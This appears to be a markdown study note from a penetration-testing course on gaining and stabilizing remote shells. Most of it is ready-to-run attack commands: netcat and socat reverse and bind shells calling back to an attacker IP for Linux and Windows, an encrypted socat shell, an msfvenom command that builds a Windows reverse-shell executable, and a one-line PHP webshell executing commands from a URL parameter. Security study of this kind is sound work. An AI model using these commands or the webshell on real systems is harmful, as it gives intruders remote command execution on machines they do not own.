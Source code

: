 ### What is the shell
- Shells are used when interfacing with a command line environment.
- To force remote systems to execute arbitrary code.e.g webserver, we can do so by obtaining a shell during initial access, that runs on the target.

- **Reverse shell** - The attacker forces the remote server to send command line access him/her
- **Bind shell** - The attacker opens up a port on the server which we can connect to in order to execute further commands.

### Tools
- There are various tools we can use to receive reverse shells and to send bind shells.
1. Netcat
2. Socat
3. Metasploit - multi/handler
4. Msfvenom

### Types of shells
#### 1. Reverse shells
- The target is forced to execute code that connects back to your computer.
- A listener would be used to receive the connection
- Recommended to bypass firewals that prevent one from connecting to arbitrary ports on the target.
> example:
- On attacking machine execute:
```
nc -lvnp 4444
```
- On target execute:
```
nc <Attacker IP> <Port> -e /bin/bash
````
#### 2. Bind shells
- Is when the code executed on target is used to start a listener attached to a shell directly on the target.
- This would then be opened to the internet, meaning you can connect to the port the code has opened and obtain an rce.
> example:
- On target execute:
```
nc -lvnp <port> -e "cmd.exe"
```
- -l - listener
- -v - request verbose ouput
- -n - not resolve hostnames or use dns
- -p - port specification will follow
- On attacking machine execute:
```
nc <target ip> <port>
```

#### Interactivity
1. **Interactive shells** - Allow one to interact with the programs after executing them.e.g. ssh
2. **Non-interactive shells** - One is limited to using programs that do not require user interaction in order to run properly.

### Netcat stabilization
#### Technique one: python
1. Spawn an interactive shell
```
python3 -c 'import pty;pty.spawn("\bin\bash")';
```
2. Step 2
```
export TERM=xterm
```
- This gives us access to term commands such as **clear**
3. Finally back the shell using Ctrl+z.
- Back in our terminal use
```
stty raw -echo; fg
```
- This turns off our own terminal echo(gives us access to tab autocompletes, arrow keys, ctrl+c to kill processes, etc). It then foregrounds the shell, thus completing the process

#### Technique two: rlwrap
- rlwrap gives us acess to history, tab, autocompletion and arrow keys immediately it receives a shell.
- Doesn't come by default, so install it:
```
sudo apt install rlwrap
```
- To use rlrap, we invoke the listerner as:
```
rlwrap nc -lvnp <port>
```
**nb**useful for windows shell which are often difficult to stabilize

#### Technique three: socat
- Use netcatas an intial stepping stone into a more fully featured socat shell.
- Transfer socat requiring no dependancies to target.

### Socat
##### Socat Reverse Shells
- On attacking machine:
```
socat TCP-L:<port> -
```
- On a windows target:
```
socat TCP:<attacker ip>:<port> EXEC:powershell.exe,pipes
```
- **pipes** is used to force powershell to use unix style standard input and output.
- On a linux target:
```
socat TCP:<attacker ip>:<port> EXEC:"bash -li"
```

##### Socat Bind Shells
- On a linux target:
```
socat TCP-L:<port> EXEC:"bash -li"
```
- On a windows target:
```
socat TCP-L:<port> EXEC:powershell.exe,pipes
```
- On attacking machine:
```
socat TCP:<Target-IP>:<port> -
```
- For a stable socat shell(where target is linux), use the listener:
```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```
- Whereas on the target use:
```
socat TCP:<Attacker-IP>:<port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

##### Socat Encrypted Shells
- Encypted shells offer protection from being spied on.
- First, generate a certificate to use for encrypted shells.e.g
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
- This creates a 2048 bit rsa key with a matching cert file, selfsigned and valid for 362 days.
- Merge the two created files into a single **.pem** file:
```
cat shell.key shell.crt > shell.pem
```
- From here, we can setup the reverse listener using:(setups an openssl listener using our cert, verify=0 tells connection to not validate the certificate)
```
socat OPENSSL-LISTEN:<port>,cert=shell.perm,verify=o -
```

- **nb**: certificate is used on the listener

- To connect to the listener:
```
socat OPENSSL:<listener-ip>:<port>,verify=0 EXEC:/bin/bash
```

### msfvenom
- standard syntax:
```
msfvenom -p <payload> <options>
```
.e.g. for a windows x64 reverse shell in exe format:
```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-ip> LPORT=<listen-port>
```
- Payload naming convection:
> <OS>/<archtecture>/<payload>
e.g.
> linux/x86/shell_reverse_tcp

### metasploit multi/handler
- Launch using:
```
msfconsole

use multi/handler
```
- Then set the PAYLOAD, LHOST and LPORT then exploit.


### Webshells
- Is a script runnning on a webserver
e.g.
```
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</payload>pre>"; ?>
```
- shell_exec executes commands given as system commands.
